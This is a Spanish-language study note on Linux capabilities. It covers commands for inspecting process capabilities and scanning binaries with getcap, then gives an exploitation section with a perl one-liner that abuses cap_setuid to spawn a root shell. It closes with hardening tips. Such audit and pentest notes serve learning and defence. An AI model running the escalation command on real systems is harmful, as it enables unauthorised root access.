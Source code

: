 -- -
Las **capabilities** son una característica de seguridad en sistemas Linux que permite otorgar privilegios específicos a procesos individuales, sin la necesidad de darles acceso completo como superusuario (**root**). Esto permite que los programas realicen tareas que normalmente requieren privilegios elevados, mejorando así la seguridad al minimizar el acceso innecesario.

---
### 🔎 **Comandos para Identificar Capabilities**

#### 🧩 **Visualización de Procesos Activos**
Para ver los procesos en ejecución junto con sus **PIDs**:
```bash
ps -faux
```
- **f:** Muestra el árbol de procesos completo.
- **a:** Muestra procesos de otros usuarios.
- **u:** Muestra el propietario.
- **x:** Incluye procesos sin terminal asociado.

---

#### 📊 **Ver Capabilities Asociadas a un Proceso**
Podemos verificar qué **capabilities** tiene un proceso utilizando su **PID**:
```bash
cat /proc/$PID/status | grep Cap
```
- **CapInh:** Capabilities heredadas.
- **CapPrm:** Capabilities permitidas.
- **CapEff:** Capabilities efectivas.
- **CapBnd:** Capabilities vinculadas.

#### 🔍 **Decodificar Capabilities**
Para ver las capabilities en formato legible:
```bash
capsh --decode=000000003000
```
- **capsh:** Utilidad para trabajar con capabilities.
- **--decode:** Muestra las capabilities en texto claro.

#### 🗺️ **Otra Forma de Ver Capabilities**
Podemos usar el siguiente comando para obtener directamente las **capabilities** de un proceso:
```bash
getpcaps $PID
```
- **getpcaps:** Muestra las capabilities activas de un proceso.  

---

## 🌐 **Barrido a Nivel de Sistema para Buscar Capabilities**
Podemos realizar un escaneo completo para encontrar binarios con capabilities activas:
```bash
getcap -r / 2>/dev/null
```
- **-r /:** Escanea recursivamente el sistema desde la raíz.
- **2>/dev/null:** Suprime mensajes de error de acceso.

---

### 💥 **Explotación de Capabilities**
Una vez identificados los binarios con capabilities activas, podemos buscar su explotación en la página [GTFOBins](https://gtfobins.github.io).  
Este sitio proporciona ejemplos de explotación para múltiples binarios comunes en Linux.  

---

### 🔑 **Ejemplos de Explotación de Capabilities**

#### 🧨 **Ejemplo 1: Capacidad `cap_setuid` con Perl**
Si el binario `perl` tiene la capacidad `cap_setuid+ep`, podríamos escalar privilegios así:
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

#### 🐚 **Ejemplo 2: Capacidad `cap_net_bind_service` con Python**
Si el binario `python` tiene la capacidad `cap_net_bind_service+ep`, podríamos crear un servidor en un puerto bajo:
```bash
python -c 'import socket; s=socket.socket(); s.bind(("0.0.0.0", 80)); s.listen(5); print("Listening on port 80");'
```

---

### 🚩 **Consejos de Seguridad**
1. **Revisa periódicamente las capabilities activas:** Las capacidades innecesarias pueden ser un riesgo.  
2. **Restringe el uso de capabilities críticas:** Como `cap_setuid` y `cap_net_admin`.  
3. **Monitorea procesos sospechosos:** Utiliza herramientas como `pspy` o `lsof` para identificar procesos anómalos.  

---

💡 **Guarda esta guía en Obsidian para tener siempre a mano las técnicas de auditoría y explotación de capabilities en Linux!** 💻